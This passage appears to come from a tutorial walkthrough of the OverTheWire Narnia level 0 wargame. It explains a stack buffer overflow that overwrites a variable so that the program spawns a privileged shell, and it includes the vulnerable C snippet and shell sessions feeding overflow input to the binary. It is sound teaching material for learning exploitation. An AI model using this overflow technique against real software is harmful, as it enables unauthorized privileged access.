 The program receives an input from the user and save it in a buffer variable of size 20. Then, it checks if the *val* is equal to a different value of what it was declared:
```c
if(val==0xdeadbeef)
        system("/bin/sh");
```
Since *val* obviously didn't change anywhere in the program, nothing happens and the program exits normally.

However, if somehow we could  change the value of *val* to [0xdeadbeef], the program will give us a privileged shell!


[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak

Let's think about the memory Stack. Just like in a pile of books, the local variables are pushed in the order that they are created. In the case above, *val* is pushed before *buf*, so *val* is in a higher memory address:
```c
  long val=0x41414141;
  char buf[20];
```

What happens if the input is larger than 20 bytes? In this case, there is no  bounds checking and the input overflows the variable *buf*, occupying the following space in the Stack: *val*. This is a classical case of **Stack Overflow**!



### Step 2: Visualizing the Overflow


The plan is to overflow *buf* with 20+4 bytes, so that the last four bytes  overwrites *val* with ```0xdeadbeef```.

Let's see how *val* is filled when we overflow byte by byte:


```sh
narnia0@melinda:/narnia$ python -c 'print "B"*24'
BBBBBBBBBBBBBBBBBBBBBBBB

narnia0@melinda:/narnia$ (python -c 'print "B"*19') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBB
val: 0x41414141
WAY OFF!!!!


narnia0@melinda:/narnia$ (python -c 'print "B"*20') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBB
val: 0x41414100
WAY OFF!!!!

narnia0@melinda:/narnia$ (python -c 'print "B"*21') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBB
val: 0x41410042
WAY OFF!!!!

narnia0@melinda:/narnia$ (python -c 'print "B"*22') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBBB
val: 0x41004242
WAY OFF!!!!

narnia0@melinda:/narnia$ (python -c 'print "B"*23') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBBBB
val: 0x00424242
```

[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP